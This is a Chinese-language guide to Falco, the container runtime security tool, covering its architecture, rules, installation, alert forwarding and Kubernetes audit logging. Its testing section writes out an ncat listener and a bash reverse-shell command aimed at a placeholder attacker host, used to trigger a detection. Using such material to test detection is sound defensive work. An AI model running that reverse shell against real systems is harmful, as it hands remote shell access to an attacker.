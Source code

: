 # [falco](https://falco.org)

* 是云原生的容器运行时（Runtime）安全项目，主要有 Sysdig 为主开发，为 CNCF 项目，近日 Sysdig 宣布将底层的内核模块、eBPF 探针和库贡献给 CNCF
* 为云原生容器安全而生，可以通过灵活的规则引擎来描述任何类型的主机或者容器的行为和活动，在触发策略规则后可以实时发出警报告警，同时支持将告警集成到各种工作流或者告警通道；
* 同时 Falco 可利用最新的检测规则针对恶意活动和 CVE 漏洞发出警报，而且规则可以实现动态更新和开箱即用。

## 架构

* Falco：为基于规则扫描后的命令行展示，有点类似于 tcpdump，本身可以提供 gRPC 服务，用于前端界面连接和采集；
* Rule Engine：将 Falco 中定义的各种 yaml 规则解析到规则引擎中，并负责过滤和触发事件至 Falco 中；
* libsinsp：对于从 libscap 上报的底层事件进行信息获取、补充并发送至 Rule Engin 进行过滤；
* libscap：该库提供了类似于 libpcap（tcpdump 底层网络获取库）的功能，用于设置采集控制参数、保存文件和操作系统层面状态的搜集；
* kernel
  - Kernel Module：使用的内核模块，采用动态内核模块支持 (DKMS) 来编译和安装内核模块；
  - eBPF Probe：作为 Kernel Module 的替换技术，只在内核较高的系统中才能完全支持，通过设置环境变量 FALCO_BPF_PROBE 进行切换；
* Falco 还支持 k8s audit 日志的采集，需要在 k8s kube-apiserver 则通过 webhook 配置支持，支持的字段可以通过 falco --list k8s_audit 进行查看

## 事件源

* Falco Drivers：Falco 的内置驱动主要有 Kernel Module、eBPF Probe 和用户空间检测 3 种。当前用户空间检测已经具备了整体框架，但是目前还没有官方的支持 Driver（v0.24.0 版本开始支持）。其中 Kernel Module 和 eBPF Probe 主要是采集系统的系统调用（syscall），eBPF Probe 是作为 Kernel Module 替代方案存在的，性能高效且能够提供更好的安全性（避免内核 Bug），但是对于内核版本有一定的要求（一般建议 4.10 以后 ）。
* Kubernetes 审计事件：对接 k8s 系统中 kube-apiserver 产生的审计事件，规则在 falco k8s_audit_rules.yaml[2] 中定义，该事件源需要修改 kube-apiserver 中对于 audit 日志的保存方式，需要调整成基于 webhook 的方式，将审计日志发送到 Falco 内置的服务端口上。
* 丢弃系统调用事件：Falco 可以智能检测系统调用丢弃的事件（ v0.15.0 以后的版本），可以基于规则进行告警。

## 规则

* falco_rules.yaml：falco 中关于文件、进程和网络等相关的规则定义；
* falco_rules.local.yaml：用于我们本地扩展规则；
* k8s_audit_rules.yaml：k8s 审计日志规则，内部启动内置服务 8765 端口在默认路径 /k8s_audit 上接受 k8s 的审计日志并经过规则过滤生成相对应的告警，[完整文件](https://github.com/falcosecurity/falco/tree/master/rules)
* 字段
  - rule：规则的名字
  - desc：规则的描述
  - condition：条件是重点，其中的各种条件 allowed_port 、inbound_outbound 等都为规则中定义的宏，这些宏也可以在本文件中找到；例如宏 inbound_outbound 的定义
  - output：符合条件事件的输出格式，文字中 %proc.cmdline 等为变量从本次触发的事件中提取
  - priority：告警的优先级
  - tags：本条规则的 tags 分类，本条为 network

```yaml
- rule: Outbound or Inbound Traffic not to Authorized Server Process and Port
  desc: Detect traffic that is not to authorized server process and port.
  condition: >
    allowed_port and
    inbound_outbound and
    container and
    container.image.repository in (allowed_image) and
    not proc.name in (authorized_server_binary) and
    not fd.sport in (authorized_server_port)
  output: >
    Network connection outside authorized port and binary
    (command=%proc.cmdline connection=%fd.name user=%user.name user_loginuid=%user.loginuid container_id=%container.id
    image=%container.image.repository)
  priority: WARNING
  tags: [network]
```

## 安装

```sh
# 单机安装
apt-get -y install linux-headers-$(uname -r)
# 或者
yum -y install kernel-devel-$(uname -r)

# Docker 方式运行
sudo docker pull falcosecurity/falco:latest
sudo docker run --rm -i -t \
     --privileged \
     -e FALCO_BPF_PROBE="" \
     -v /var/run/docker.sock:/host/var/run/docker.sock \
     -v /dev:/host/dev \
     -v /proc:/host/proc:ro \
     -v /boot:/host/boot:ro \
     -v /lib/modules:/host/lib/modules:ro \
     -v /usr:/host/usr:ro \
     -v /etc:/host/etc:ro \
     falcosecurity/falco:latest
```

## FalcoSideKick 告警集中化展示

* 支持将日志按照 gGPRC/File/STDOUT/SHELL/HTTP 等多种方式进行输出
* 可以通过 HTTP 方式将日志汇总到部署的 FalcoSideKick 服务，FalcoSideKick 服务可以实现更加丰富的告警通道能力，包括 Slack/Altermanager/SMTP 等多种告警通道输出。同时 FalcoSideKick 还支持将数据输出到 FalcoSideKick UI，用户可以通过界面进行查看

```yaml
# falco.yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
# 开启了内部嵌入服务
webserver:
   enabled: true
   listen_port: 8765
   k8s_audit_endpoint: /k8s_audit
   ssl_enabled: false
   ssl_certificate: /etc/falco/falco.pem
```

```sh
kill -1 $(cat /var/run/falco.pid)

# 启动 falcosidekick 和 falcosidekick-ui
sudo docker run -d -p 2801:2801 -e WEBUI_URL=http://172.17.0.14:2802 falcosecurity/falcosidekick
sudo docker run -d -p 2802:2802 falcosecurity/falcosidekick-ui
```

## 测试

```sh
# 在 Falco 机器上通过登录到本机的 Pod 实例（或者容器实例）中测试：

# 在另外一个窗口执行
docker exec -ti e6a37f5f7c33  /bin/bash -il

# 在一台攻击的机器上启动 ncat：
# ncat -l -p 10000
# 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@xxx:/#

# 在上个样例中登录的 Pod 中执行一下命令，那么在上述攻击的机器的命令行中就会得到该 Pod 的 shell 权限,对于这种行为 falco 可以进行检测和发现
root@backend-05:/# bash -i >& /dev/tcp/a.b.c.d/10000 0>&1
```

## k8s audit 日志采集

* 启动一个内部内嵌的服务端，用于接受 k8s audit 日志输出，需要在 k8s 中定义相关的规则将 audit 日志提交至该服务，然后经相关规则定义后，输出可能触发的告警信息

```sh
cat <<EOF > /etc/kubernetes/audit-webhook-kubeconfig
apiVersion: v1
kind: Config
clusters:
- cluster:
    server: http://<ip_of_falco>:8765/k8s_audit
  name: falco
contexts:
- context:
    cluster: falco
    user: ""
  name: default-context
current-context: default-context
preferences: {}
users: []
EOF

# api-server 启动中添加对应的文件：
--audit-policy-file=/etc/kubernetes/audit-policy.yaml --audit-webhook-config-file=/etc/kubernetes/audit-webhook-kubeconfig
```
